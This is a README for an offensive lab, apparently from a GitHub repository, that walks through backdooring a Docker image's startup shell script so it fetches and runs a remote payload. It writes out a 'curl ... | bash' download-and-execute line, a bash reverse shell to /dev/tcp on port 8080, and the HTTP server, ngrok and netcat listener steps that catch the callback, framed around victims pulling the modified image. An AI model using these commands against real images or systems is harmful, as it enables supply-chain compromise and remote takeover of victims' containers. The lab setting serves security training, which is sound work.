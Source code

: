 # Backdoored shell script in container image

## Scenario

You have the acccess to modify docker images either through source that contains a shell script called in the Dockerfile or through an image registry. The shell script that you can modify runs on startup (a pretty common scenario)

## Building the image

First you need to build the image. This is emulating the process that will take place whenever the target image is built. Based on our scenario the victim will either be pulling in the modified source shell script or you replaced the image in the registry after updating the shell script.

The line that ends up backdooring the image will be the following:

```
curl -s http://<ip_address>:8000/payload.txt | bash
```

For added security use public key pinning (See the section [Using ngrok for your payload server address](https://github.com/sneakerhax/OffensiveDocker/blob/main/Labs/backdoored_image_sh/README.md#using-ngrok-for-your-payload-server-address)):

```
curl -Iksv --pinnedpubkey sha256//0 https://<your_site>.com
```

Use the value from output called public key hash (This is the format curl will expect in the next command)

```
curl -sk --pinnedpubkey <format>//<key_hash> https://<your_site>.com
```

This will curl the website with the public key pinned (-k is used if you have a self signed certificate)

### Build the image

* Update line 4 with the ip address of your payload server

```
docker build -t backdoor .
```

## Setting up the payload server

Next you need to setup the server that will host the file containing your payload. The payload can be anything you want to execute when the container is started. In this example we will use a reverse shell that calls back to a netcat server. I'm using python SimpleHTTPServer to host the file but this can be setup other ways as long as the file can be accessed.

### Create the payload file

```
touch payload.txt
```


### Add your payload (in this example the reverse shell)

```
nohup bash -c bash -i >& /dev/tcp/<ip_address>/8080 0>&1
```

* This payload example can be found in payload.txt
* Update the ip address and port with the values for your netcat server

### Starts a server on port 8000 by default

```
python3 -m http.server
```

### Using ngrok for your payload server address

```
ngrok http 8000 -bind-tls=true
```

Starts an ngrok listener and gives you a public address (You will need to follow the [Building the image](https://github.com/sneakerhax/OffensiveDocker/tree/main/Labs/backdoored_image_sh#building-the-image) section to grab the certificate)

## Start your Netcat handler

This step is only required if you choose to make your payload a reverse shell. This step will start a netcat server that will handle the callback from your reverse shell.

### Start the netcat listener

```
netcat -lkvp 8080
```

## Start your container

This step emulates what will occur when the backdoored image is deployed and the container starts. The script in the case will only execute once when the container is started

### Start the Docker container (execute the payload)

```
docker run -it backdoor
```

If everything goes according to plan you should get a callback similar to the this [tweet](https://twitter.com/sneakerhax/status/1416870516976099330?s=20)

